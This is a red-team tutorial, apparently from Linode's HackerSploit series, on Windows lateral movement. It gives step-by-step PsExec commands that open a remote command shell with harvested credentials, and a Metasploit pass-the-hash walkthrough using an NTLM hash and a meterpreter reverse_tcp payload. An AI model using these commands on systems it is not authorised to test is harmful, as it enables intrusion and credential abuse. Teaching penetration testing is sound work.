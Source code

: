 ```yaml
---
slug: windows-red-team-lateral-movement-techniques
description: 'This guide covers the process of performing lateral movement on Windows systems.'
keywords: ['security']
tags: ['security']
license: '[CC BY-ND 4.0](https://creativecommons.org/licenses/by-nd/4.0)'
published: 2021-11-03
modified_by:
  name: Linode
title: "Windows Red Team Lateral Movement Techniques"
authors: ["HackerSploit"]
---
```


{{% content "hackersploit-red-team-series-note-shortguide" %}}

{{% content "hackersploit-caution-shortguide" %}}

## Before You Begin

In order to follow along with the tools and techniques utilized in this document, you will need to use one of the following offensive Linux distributions:

- Kali Linux
- Parrot OS

The following is a list of recommended technical prerequisites that you will need in order to get the most out of this course:

- Familiarity with Linux system administration.

- Familiarity with Windows.

- Functional knowledge of TCP/IP.

- Familiarity with penetration testing concepts and life-cycle.

Note: The techniques and tools utilized in this document were performed on Kali Linux 2021.2 Virtual Machine

## MITRE ATT&CK Lateral Movement Techniques

Lateral Movement consists of techniques that adversaries use to enter and control remote systems on a network. Following through on their primary objective often requires exploring the network to find their target and subsequently gaining access to it. Reaching their objective often involves pivoting through multiple systems and accounts to gain. Adversaries might install their own remote access tools to accomplish Lateral Movement or use legitimate credentials with native network and operating system tools, which may be stealthier.

![MITRE ATT&CK lateral movement techniques](mitre-attack-lateral-movement-techniques.png "MITRE ATT&CK lateral movement techniques")

The following is a list of key techniques and sub techniques that we will be exploring:

- Remote Services

- Alternate Authentication

Our objective is to utilize clear-text passwords and hashes that we extracted to facilitate lateral movement through legitimate authentication protocols/methods.

## Lateral Movement With PsExec

PsExec is a lightweight telnet-replacement that lets you execute processes on other systems, complete with full interactivity for console applications, without having to manually install client software. PsExec's most powerful uses include launching interactive command-prompts on remote systems and remote-enabling tools like IpConfig that otherwise do not have the ability to show information about remote systems.

We can use the PsExec utility to authenticate with the target system legitimately and run arbitrary commands or launch a remote command prompt.

We will be running PsExec from our Windows VM as you may encounter a few issues when running PsExec on Linux with Wine.

Note: We will be utilizing the credentials we extracted from the Windows 10 target system in the Credential Access Video.

1. You can download PsExec from the following link: https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

1. After downloading PsTools archive, you will need to extract it and open a Windows command prompt in the extracted folder.

1. We can execute a command on the target system with PsExec by specifying the computer name/IP address, username, and password. This can be done by running the following command:

        ./PsExec64.exe \\<TARGET-IP> -u Administrator -p <PASSWORD> ipconfig

    In this case, we will execute the ipconfig command on the target system in order to verify that we can authenticate successfully with PsExec.

    ![PsExec - execute ipconfig command on target](psexec-execute-ipconfig-command-on-target.png "PsExec - execute ipconfig command on target")

    As highlighted in the preceding screenshot, PsExec authenticates with the target system, executes the ipconfig, and provides us with the output of the command.

1. Alternatively, we can also initiate a remote command prompt session with the target system by running the following command:

        ./PsExec64.exe \\<TARGET-IP> -u Administrator -p <PASSWORD> cmd.exe

    As highlighted in the following screenshot, we are able to authenticate successfully and obtain a remote command shell session on the target system.

    ![PsExec - remote shell](psexec-remote-shell.png "PsExec - remote shell")

    We can now utilize the remote command session to scan and ping for other hosts on the network that we can pivot to.

## Pass-the-Hash

If you weren’t able to extract any cleartext passwords from the target system, you can utilize the pass-the-hash Metasploit module that leverages PsExec in order to authenticate with SMB (Server Message Block) using a user account’s NTLM hash.

Pass-the-hash is a technique that is used by attackers to authenticate to a remote host by using the underlying NTLM or LanMan hash of a user's password, instead of requiring the associated plaintext password.

For this section, our target system will be running Windows 10. As a prerequisite, ensure that you have gained your initial foothold on the system and have a meterpreter session

1. The first step will involve loading the SMB PsExec Metasploit module, this can be done by running the following command on the Kali terminal:

        use exploit/windows/smb/psexec

1. After loading the module, you will need to configure the module payload, this can be done by running the following command:

        set payload windows/x64/meterpreter/reverse_tcp

1. You will also need to set the SMBPass and SMBUser options with the NTLM hash and name of the user account. This can be done by running the following commands:

        set SMBUser <USERNAME>

    Note: In this case, we will be setting the “SMBUser” option to “Administrator”.

        set SMBPass <NTLM Hash>

1. Finally, you will need to set the target system IP address, this can be done by running the following command:

        set RHOSTS <TARGET-IP>

1. After configuring the options, we can execute the module by running the following command:

        run

1. If authentication is successful, you should receive a new meterpreter session with the privileges of the user you authenticated with as shown in the screenshot below.

    ![Meterpreter session from PsExec with Pass-the-Hash](meterpreter-session-from-psexec-with-pass-the-hash.png "Meterpreter session from PsExec with Pass-the-Hash")